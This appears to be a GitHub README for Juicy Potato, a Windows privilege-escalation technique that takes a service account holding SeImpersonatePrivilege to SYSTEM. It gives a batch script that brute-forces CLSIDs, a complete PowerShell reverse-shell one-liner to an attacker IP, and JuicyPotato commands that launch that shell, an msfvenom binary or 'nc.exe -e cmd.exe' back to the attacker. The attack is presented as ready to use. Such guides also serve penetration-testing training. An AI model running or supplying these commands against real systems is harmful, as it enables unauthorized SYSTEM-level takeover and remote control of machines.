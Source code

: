 # Juicy-Potato
Juicy Potato is a Privilege Escalation tool, from a Windows Service Accounts to NT AUTHORITY\SYSTEM. 

# Exploitation
First Check that you've SeImpersonatePrivilege Enabled

whoami /priv

![OnPaste 20220606-195812](https://user-images.githubusercontent.com/106917304/172181384-a233e095-62a2-4088-90f9-40312107bdbc.png)



With systeminfo we can see the target OS name

![OnPaste 20220606-185951](https://user-images.githubusercontent.com/106917304/172170491-77cc6851-f294-4156-9076-0a917bd08776.png)


Traget Arch

![OnPaste 20220606-190251](https://user-images.githubusercontent.com/106917304/172170739-bddac064-d18f-4f70-95fe-8ed3c94c7e7a.png)


Now we gonna get CLSID for our target machine

[Resource:] (https://github.com/ohpe/juicy-potato/tree/master/CLSID) 

Here my traget is Windows 7 Professional i can go for Windows 7 Enterprise, copy all the CLSID from CLSID.list file.

Open your favourite editor and paste all the CLSID and name the file CLSID.list.

Our target machine is x32-bit arch. Grab the Juicy Potato binary for 32-bit os.

[Resource:] (https://github.com/k4sth4/Juicy-Potato) 

We gonna make a test.bat file which gonna help you to execute the jp32.exe and find you a valid CLSID for attack.

Content of our test.bat file

```markdown

@echo off
:: Starting port, you can change it
set /a port=10000
SETLOCAL ENABLEDELAYEDEXPANSION
FOR /F %%i IN (C:\\Users\\Bob\Desktop\\CLSID.list) DO (
echo %%i !port!
C:\\Users\\Bob\\Desktop\\jp32.exe -z -l !port! -c %%i >> result.log
set RET=!ERRORLEVEL!
:: echo !RET!
if "!RET!" == "1" set /a port=port+1
)

```
### Changes to Make
Note: C:\\Users\\Bob\\Desktop\\CLSID.list and C:\\Users\\Bob\\Desktop\\jp32.exe are the place where we gonna upload our CLSID.list file and jp32.exe (juicy potato 32-bit).


## Using Powershell
Next we gonna create shell.bat file for our reverse ahell.

```markdown

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.x.x',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```

### Changes to make
NOTE: '10.10.x.x',1234 is the attacker IP and listening port for our reverse shell.



## Using msfvenom or nc.exe binary
generate a shell.exe binary using msfvenom.


Now upload jp32.exe, test.bat, CLSID.list, shell.bat or shell.exe / nc.exe to the user Desktop (same path that we used in our test.bat).

![OnPaste 20220606-192729](https://user-images.githubusercontent.com/106917304/172175237-70da4fdd-2e92-447e-a23d-622692e8b732.png)


Now execute the test.bat
        
        powershell Start-Process c:\Users\Bob\Desktop\test.bat  (if not in powershell)                                                           
        Start-Process c:\Users\Bob\Desktop\test.bat             (if in powershell) 
        
 Now wait for 5-mins you will see result.log file is created type the file you gonna see bunch of CLSID.
 
 ![OnPaste 20220606-193222](https://user-images.githubusercontent.com/106917304/172176176-c227b6c8-dd0b-4d31-9f75-f04a4dabb570.png)

We're insterested in SYSTEM CLSID. Grab one of SYSTEM CLSID.

Now we've found valid CLSID for SYSTEM we can use that CLSID and get system shell.

# Reverse Shell

## Using Powershell shell.bat

```markdown

c:\\Users\\Bob\\Desktop\\JuicyPotato.exe -l 1234 -p c:\\Users\\Bob\\Desktop\\shell.bat -t * -c {c980e4c2-c178-4572-935d-a8a429884806} 

```

## Using nc.exe

```markdown

c:\\Users\\Bob\\Desktop\\jp32.exe -l 443 -p c:\\windows\\system32\\cmd.exe -a "/c c:\\Users\\Bob\\Desktop\\nc.exe -e cmd.exe 192.168.x.x 443" -t * -c {659cdea7-489e-11d9-a9cd-000d56965251}

```

## Using shell.exe 

```markdown

c:\\Users\\Bob\\Desktop\\jp32.exe -l 443 -p c:\\windows\\system32\\cmd.exe -a "/c c:\\Users\\Bob\\Desktop\\shell.exe" -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}

```

![OnPaste 20220606-195312](https://user-images.githubusercontent.com/106917304/172180304-91e48267-0a99-43cd-bd33-0f13c36c90d9.png)

## Get Reverse Shell as SYSTEM

![OnPaste 20220606-195431](https://user-images.githubusercontent.com/106917304/172180726-4bdb1672-1a35-4e06-8458-a873b49c6926.png)


